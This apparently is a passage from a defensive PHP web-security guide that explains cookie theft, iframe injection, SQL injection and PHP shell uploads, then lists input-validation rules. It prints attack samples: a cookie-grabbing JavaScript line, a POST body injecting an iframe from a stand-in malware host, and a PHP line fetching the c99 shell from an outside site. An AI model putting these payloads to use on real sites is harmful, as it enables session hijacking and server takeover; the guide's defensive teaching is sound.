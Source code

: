 ```js
/* Steal the PHP cookie from the logged in user over Wi-fi and copy it into our browser to hijack their session */
alert(document.cookie.match(/PHPSESSID=[^;]+/));
```
```bash
# Print a hostile iframe into the next page
POST /publishable 
thingtoecho=<iframe src='xssattack.com/malware.pl'></iframe>&exec={json:{"executeme:true}} 
```

If they are smart, they will be using **Tor** or a **VPN**. These are difficult to detect as they are just standard IP pools, but your code should have some degree of network awareness, or block suspect/blacklisted sources.

The bad data will be sent through:

- $_GET 
- $_POST 
- $_REQUEST 
- $_SERVER 
- phpinput://

**None of these attacks can get through if your application refuses to accept that input.**

The rules:

- Do not assume the request is from who you think it is.
- Do not trust the input you are given.
- Do not accept input you do not require.
- Check the input to make sure it is a) what you specify it must be, and b) it is what it says it is.
- Know how to identify who is sending something bad.

## What's going to be uploaded
SQL injection sends database commands using *UNION* and *information_schema* to bleed the contents of a database onto a database-driven page.

The goal of a hacker is usually to take over the server as a slave bot (e.g. to upload phishing pages), or to steal the database contents. To do that, they need to upload a **PHP shell**: a remote control script. It is usually loaded as a *.txt* file from an external host after probing */proc/self/environ*, hence why it's a good idea to turn off *allow_url_fopen*.

The 2 most common shells allow you to send commands to *shell_exec* and browse the web directory. They are:

- c99.php
- r57.php

A real-life pseudo-code example is:
```php
file_get_contents('http://www.r57shell.net/shell/c99.txt');
// or move_uploaded_file
```

http://www.r57shell.net/
